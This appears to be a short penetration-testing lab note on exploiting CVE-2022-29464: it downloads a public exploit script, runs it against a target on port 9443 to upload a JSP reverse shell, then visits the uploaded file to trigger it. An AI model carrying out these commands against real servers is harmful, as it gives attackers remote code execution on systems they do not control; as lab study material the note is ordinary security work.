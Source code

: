 ```bash - kali
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```

![[0._Reverse shells (WEB)#jsp]]

```bash - kali
python3 exploit.py https://$TARGET:9443 reverse.jsp
```

Next, we just visit:

`https://$TARGET:9443/authenticationendpoint/reverse.jsp`















